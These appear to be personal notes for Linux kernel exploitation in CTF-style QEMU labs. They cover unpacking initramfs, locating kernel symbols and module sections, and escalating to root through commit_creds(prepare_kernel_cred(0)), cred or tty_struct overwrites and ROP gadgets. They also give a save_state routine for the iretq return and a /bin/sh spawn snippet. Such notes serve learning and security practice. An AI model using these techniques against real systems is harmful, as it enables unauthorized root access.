 # decompress filesystem
mkdir fs
cd fs
cp ../core.cpio core.cpio.gz #  copy the cpio file into the folder and change the suffix
gunzip ./core.cpio.gz 
cpio -idm < ./core.cpio
#if file system is already .gz with file type gzip
gzip -cd ../initramfs.cpio.gz | cpio -imd --quiet
# compress filesystem
find . -print0 | cpio --null -ov --format=newc | gzip -9 > core.cpio
#for a ext2/3/4 filesystem
mount it on the host while qemu is off, make changes, unmount then boot qemu.
mount -o loop,offset=offset /path/to/disk_image /mnt/mount_point
# setsid to 0 to get root->
to access /sys/module/name_of_module/sections/.text for address of .text section of module
/proc/kallsyms for all symbols.
change uid to 0 in /etc/passwd
# Use extract-vmlinux script in linux-headers to extract vmlinux from bzImage
/usr/src/linux-headers-$(uname -r)/scripts/extract-vmlinux bzImage > vmlinux
# cat /sys/module/name_of_module/sections/.text->address of .text sectiion of loaded module.
# load debug info:add-symbol-file /path/to/module 0xd081d000 \  #  .text
 		-s .data 0xd08232c0 \
		-s .bss  0xd0823e20
# find .text address of exploit->:readelf -WS ./exploit | grep .text | awk '{ print "0x"$5 }'
# call commit_creds(prepare_kernel_cred(0)) to get root LPE
# open the dev file created in /dev or /proc or /sys to interact with the kernel module.
# use functions like read(),write(),ioctl() to interact with the device, this will trigger a call to device_read(),device_write(),etc.
# if you obtain major number with register_chrdev(), you need to manually make the device file.
# proc_create automatically creates the device file in /proc
# usually, there are no libraries on the qemu system, so compile the exploit with gcc -static -o exploit exploit.c
# size of cred struct is 0xa8.
# size of tty_struct is 0x2e0.
# Different attacks:
overwrite cred struct directly.
first allocate a cred struct with fork() and then use UAF to overwrite this.
change tty_struct ops.
if smep is enabled, cannot directly call any user-space function with level0 privilage.
we need to be level0 to call commit_creds(prepare_kernel_cred(0)), which will elevate the privilage level of the process.
openning /dev/ptmx will create a new tty_struct 
iretq uses the values of ss,rip,cs,eflags,user stack location, hence we need to save these for future use.
char *args[]={"/bin/sh",NULL}; execve("/bin/sh",args,NULL) is needed to spqwn shell.
To define kernel functions, first create a typedef with: ret_type(typedefname)(args) and then define with function with typedefname addr.Example:
typedef int __attribute__((regparm(3)))(*commit_creds_func)(unsigned long cred);
commit_creds_func commit_creds = (commit_creds_func) 0xffffffff810a1420;
to define gadget addresses, for example:
unsigned long poprdi = 0xffffffff813e7d6f;
unsigned long user_cs, user_ss, user_rflags;
eax is exactly the address of the instruction to be executed when the ioctl is executed
#save state used to return back to user-space from kernel-space with iterq
static void save_state()
{
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
	"movq %%rsp, %3\n"
        "pushfq\n"
        "popq %2\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_rflags), "=r"(user_rsp)
        :
        : "memory");
}

stack layout while returning: r_rip;user_cs;user_rflags;user_rbp;user_ss;





